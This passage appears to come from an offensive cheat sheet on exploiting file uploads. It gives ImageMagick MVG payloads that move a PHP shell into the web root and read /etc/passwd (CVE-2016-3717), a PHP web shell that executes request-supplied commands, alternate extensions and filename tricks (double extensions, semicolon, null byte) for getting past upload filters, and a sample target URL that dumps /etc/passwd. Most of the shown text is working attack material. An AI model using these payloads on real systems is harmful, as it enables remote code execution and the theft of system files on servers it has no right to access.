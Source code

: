 /tmp/image.gif - image with php shell inside (https://www.secgeek.net/POC/POC.gif for example)
```
$ convert file_move.mvg out.png # moves /tmp/image.gif to /var/www/shell.php
```
**CVE-2016-3717 -** Local file read (independently reported by original research author - Stewie)
It is possible to get content of the files from the server by using ImageMagick's 'label' pseudo protocol:

**file_read.mvg**
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/etc/passwd'
pop graphic-context
```
```
$ convert file_read.mvg out.png
```
produces file with text rendered from /etc/passwd


## PHP
https://blog.securitybreached.org/2017/12/19/unrestricted-file-upload-to-rce-bug-bounty-poc/

 upload a PHP file
```
<?php if(isset($_REQUEST[‘cmd‘])){ echo “<pre>“; $cmd = ($_REQUEST[‘cmd‘]); system($cmd); echo “</pre>“; die; }?>
``` 
Attempt with multiple exetensions:
- php
- phps
- phpt
- php3 
- php4 
- php5

Example Target: http://targetsite.com/images/users/19982638/cmd.phps?cmd=cat+/etc/passwd


## Inkscape XXE vulnerability during rasterization of SVG images
https://bugs.launchpad.net/inkscape/+bug/1025185

http://cwe.mitre.org/data/definitions/827.html


## if not able to upload the file type you like try adding extensions and/or special characters
https://soroush.secproject.com/blog/2009/12/microsoft-iis-semi-colon-vulnerability/

consider throwing hex or decimel in as well. 

```
maliciousfile.jpg.asp
Maliciousfile.asp;,jpg
"shell.php" (appended U+0000))
```
#### Exploit for Wordpress Plugin Contact Form 7 5.3.1
https://www.exploit-db.com/exploits/49294
